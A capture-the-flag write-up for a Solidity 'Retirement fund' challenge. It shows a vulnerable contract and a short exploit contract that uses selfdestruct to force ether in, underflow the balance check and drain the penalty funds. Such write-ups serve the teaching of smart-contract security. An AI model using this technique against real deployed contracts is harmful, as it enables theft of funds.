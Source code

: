 # Retirement fund
<sup>MATH: 500 POINTS</sup>

This retirement fund is what economists call a [commitment device](https://en.wikipedia.org/wiki/Commitment_device). I’m trying to make sure I hold on to 1 ether for retirement.

I’ve committed 1 ether to the contract below, and I won’t withdraw it until 10 years have passed. If I do withdraw early, 10% of my ether goes to the beneficiary (you!).

I really don’t want you to have 0.1 of my ether, so I’m resolved to leave those funds alone until 10 years from now. Good luck!

```solidity
pragma solidity ^0.4.21;

contract RetirementFundChallenge {
    uint256 startBalance;
    address owner = msg.sender;
    address beneficiary;
    uint256 expiration = now + 10 years;

    function RetirementFundChallenge(address player) public payable {
        require(msg.value == 1 ether);

        beneficiary = player;
        startBalance = msg.value;
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function withdraw() public {
        require(msg.sender == owner);

        if (now < expiration) {
            // early withdrawal incurs a 10% penalty
            msg.sender.transfer(address(this).balance * 9 / 10);
        } else {
            msg.sender.transfer(address(this).balance);
        }
    }

    function collectPenalty() public {
        require(msg.sender == beneficiary);

        uint256 withdrawn = startBalance - address(this).balance;

        // an early withdrawal occurred
        require(withdrawn > 0);

        // penalty is what's left
        msg.sender.transfer(address(this).balance);
    }
}
```

Enjoy this inspirational music while you work: [Smooth Criminal](https://www.youtube.com/watch?v=Mx0xCI1jaUM).


Solution:

In order to get the money we need to `collectPenalty`

The condition we need to achieve is `require(withdrawn > 0);`

And this is calculated by `uint256 withdrawn = startBalance - address(this).balance;`

`startBalance`, which is `1`, cannot be manipulated, but we know that `address(this).balance` can

We need to fund the contract with some ETH to get some ETH back. Looks like 2020 twitter scam :D

```solidity
contract Exploit {
    address contractToFund;
    constructor(address _contractToFund) public payable {
        require(msg.value == 1 ether);
        contractToFund = _contractToFund;
    }
    function destroy() public {
        selfdestruct(contractToFund);
    }
}
```